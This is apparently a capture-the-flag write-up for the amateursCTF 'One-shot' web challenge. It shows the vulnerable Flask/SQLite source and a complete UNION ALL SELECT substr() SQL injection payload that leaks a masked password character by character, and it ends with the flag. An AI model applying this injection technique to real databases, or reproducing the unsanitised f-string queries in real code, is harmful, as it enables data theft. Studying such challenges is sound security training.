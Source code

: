# Web-One-shot

solved by makider https://makider.me/

## Challenge Text

my friend keeps asking me to play OneShot. i haven't, but i made this cool challenge! http://one-shot.amt.rs

![one-shot](assets/image.png)

## writeup

to solve this challenge we first have to take a look at the code:

```python
from flask import Flask, request, make_response
import sqlite3
import os
import re

app = Flask(__name__)
db = sqlite3.connect(":memory:", check_same_thread=False)
flag = open("flag.txt").read()

@app.route("/")
def home():
    return """
    <h1>You have one shot.</h1>
    <form action="/new_session" method="POST"><input type="submit" value="New Session"></form>
    """

@app.route("/new_session", methods=["POST"])
def new_session():
    id = os.urandom(8).hex()
    db.execute(f"CREATE TABLE table_{id} (password TEXT, searched INTEGER)")
    db.execute(f"INSERT INTO table_{id} VALUES ('{os.urandom(16).hex()}', 0)")
    res = make_response(f"""
    <h2>Fragments scattered... Maybe a search will help?</h2>
    <form action="/search" method="POST">
        <input type="hidden" name="id" value="{id}">
        <input type="text" name="query" value="">
        <input type="submit" value="Find">
    </form>
""")
    res.status = 201

    return res

@app.route("/search", methods=["POST"])
def search():
    id = request.form["id"]
    if not re.match("[1234567890abcdef]{16}", id):
        return "invalid id"
    searched = db.execute(f"SELECT searched FROM table_{id}").fetchone()[0]
    if searched:
        return "you've used your shot."
    
    db.execute(f"UPDATE table_{id} SET searched = 1")

    query = db.execute(f"SELECT password FROM table_{id} WHERE password LIKE '%{request.form['query']}%'")
    return f"""
    <h2>Your results:</h2>
    <ul>
    {"".join([f"<li>{row[0][0] + '*' * (len(row[0]) - 1)}</li>" for row in query.fetchall()])}
    </ul>
    <h3>Ready to make your guess?</h3>
    <form action="/guess" method="POST">
        <input type="hidden" name="id" value="{id}">
        <input type="text" name="password" placehoder="Password">
        <input type="submit" value="Guess">
    </form>
"""

@app.route("/guess", methods=["POST"])
def guess():
    id = request.form["id"]
    if not re.match("[1234567890abcdef]{16}", id):
        return "invalid id"
    result = db.execute(f"SELECT password FROM table_{id} WHERE password = ?", (request.form['password'],)).fetchone()
    if result != None:
        return flag
    
    db.execute(f"DROP TABLE table_{id}")
    return "You failed. <a href='/'>Go back</a>"

@app.errorhandler(500)
def ise(error):
    original = getattr(error, "original_exception", None)
    if type(original) == sqlite3.OperationalError and "no such table" in repr(original):
        return "that table is gone. <a href='/'>Go back</a>"
    return "Internal server error"

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=8080)
```

**this code is vulnerable to sql injection here:**

```python
    query = db.execute(f"SELECT password FROM table_{id} WHERE password LIKE '%{request.form['query']}%'")
    return f"""
    <h2>Your results:</h2>
    <ul>
    {"".join([f"<li>{row[0][0] + '*' * (len(row[0]) - 1)}</li>" for row in query.fetchall()])}
    </ul>
    <h3>Ready to make your guess?</h3>
    <form action="/guess" method="POST">
        <input type="hidden" name="id" value="{id}">
        <input type="text" name="password" placehoder="Password">
        <input type="submit" value="Guess">
    </form>
"""
```

because the request.from query isn't properly sanitized

and we can inject sql code.

now we can't simply insert `%` to solve this because

then the password is sent in this form here

` {"".join([f"<li>{row[0][0] + '*' * (len(row[0]) - 1)}</li>" for row in query.fetchall()])}`

which censors the last chars of the flag, **except the first one**.

after a bit i have come up with this idea of injecting sql that reads the flag one char by one, so bypassing the one char filter.

to do it i have created some python code that gets the correct table name and builds the payload.

here's the full payload:

```sql
%' UNION ALL SELECT substr(password,1,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,2,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,3,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,4,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,5,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,6,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,7,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,8,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,9,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,10,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,11,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,12,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,13,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,14,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,15,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,16,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,17,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,18,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,19,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,20,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,21,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,22,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,23,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,24,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,25,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,26,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,27,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,28,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,29,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,30,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,31,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,32,1) FROM table_5befc8ecc4866d2b-- -
```

as you can see by using substr() function we can get an arbitrary char in the password which we know is 32 chars long because of this line of code `os.urandom(16).hex()` which gets 16 random bytes and trasforms them to hexadecimal notation so now its 32 chars.

now, send the payload, copy the password, remove the extra new lines and send the guess!

### The flag

`amateursCTF{go_union_select_a_life}`
